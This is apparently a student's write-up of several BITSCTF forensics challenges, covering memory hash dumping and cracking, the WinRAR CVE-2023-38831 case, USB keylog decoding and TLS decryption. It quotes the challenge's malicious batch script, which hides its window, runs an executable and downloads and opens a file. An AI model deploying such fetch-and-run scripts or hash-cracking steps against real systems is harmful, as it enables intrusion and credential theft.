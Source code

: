 # Access Granted

**Flag:** `BITSCTF{adolfhitlerrulesallthepeople}`

Approach

- step 1<br>
Dumping the hash dumps from memory images using Volatility 3.

- step 2<br>
Cracking the NTLM hashes using CrackStation.


![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Forensics/assets/vol.png)


What you learned through solving this challenge:
<br>
- How to crack password hashes and using Volatility 3 for dumping.


References

- ![Cracking Hashes](https://crackstation.net/)

<br>
<br>

# 0.69 Day

**Flag:** `BITSCTF{CVE-2023-38831}`

Approach

- step 1<br>
Exploring the WinRAR vulnerability which executes steps.pdf.bat malicious file when it is extracted. 
If we search under MogamBro's user directory in the disk dump, we find MogamBro/AppData/Roaming/WinRAR.
And also under Downloads a zip folder Follow these instructions.

```
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
@echo off
lottery.exe & start chrome -incognito https://pastebin.com/mPvzn0AD & notepad.exe secret.png.enc & curl google.com -o steps.pdf & steps.pdf
exit
```

What you learned through solving this challenge:
<br>
- About CVE and how outdates software of WinRAR can be exploited.


References

- ![Exploit](https://github.com/z3r0sw0rd/CVE-2023-38831-PoC)

<br>
<br>

#MogamBro's Guilty Pleasure	

**Flag:** `BITSCTF{sp4m_2_ph1sh_U}`

Approach

- step 1<br>
When we open the YOU WON A LOTTERY eml file under Outlook it matches the downloads file lottery.exe.
It is simple a decoy.

- step 2<br>
However the other link 50% discount on plushies is a Spam Mimmic link and has hidden flag behind it.	


![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Forensics/assets/vol.png)



What you learned through solving this challenge:
<br>
- About a Spam Mimmic Link.

References

- ![Source on Spam text](https://www.giac.org/paper/gsec/1461/steganography-real-risk/102743)

<br>
<br>


# I'm wired in	

**Flag:** `BITSCTF{I_7h1nk_th3y_4Re_k3yl0991ng_ME!}`

Approach

- step 1<br>
 We have to find the keystroke history of the user to obtain the flag. Going through the image, I noticed a keylog.pcapng file and a key file in the Desktop directory of MogamBro.

- step 2<br>
After extracting and analyzing the pcapng file, USB traffic can be found. Researching online about USB packets,I found a USBKeyTranslator repo to retrieve HID data from packets.

```bash
$ python USBkeysTranslator.py keylog.pcapng 

[+] Using filter "usbhid.data" Retrived HID Data is :

I haveebeen haakee  !!!
HELLMEE
BITSCTF{I_-7h1nk_th3y_4Re_k3yl0991ng_ME!}

 MogamBro
```

What you learned through solving this challenge:
<br>
- How to view the contents of a keylog file and analysing the USB traffic.

References

- ![USB keys translator](https://github.com/fa1c0n1/USBkeysTranslator)

<br>
<br>

# ByPassing Transport Layer	

**Flag:** `BITSCTF{5te4l1ng_pr1v47e_key5_ez:)}`

Approach

- step 1<br>
 I found TLS keys on MogamBro's desktop directory.Analyzing the powershell history in the AD1 image, you can see that a sequence of commands sets up environment variables for logging SSL/TLS keys, then it captures network traffic and saves the data into the pcap file given by the authors. 
We can use keys file t decrypt the TLS packets.

- step 2<br>
Using Wireshark, I imported the key file to the pcap file to reveal the unencrypted packets. It is possible by Edit > Preference > Protocols > TLS > Browse key file and Wireshark should display the unencrypted packets.Looking through the pcap, we see HTTP2 packets that seem to be images, GIFs and other files.We can export them.(lot of 18+ stuff).We can use and strings to get the flag name.

```bash
strings ./* | grep -i "BITSCTF"
BITSCTF{5te4l1ng_pr1v47e_key5_ez:)}
```

![](https://github.com/adityachawla005/cryptonite_taskphase_Aditya/raw/main/TP2/Forensics/assets/trans.png)


<br>
<br>





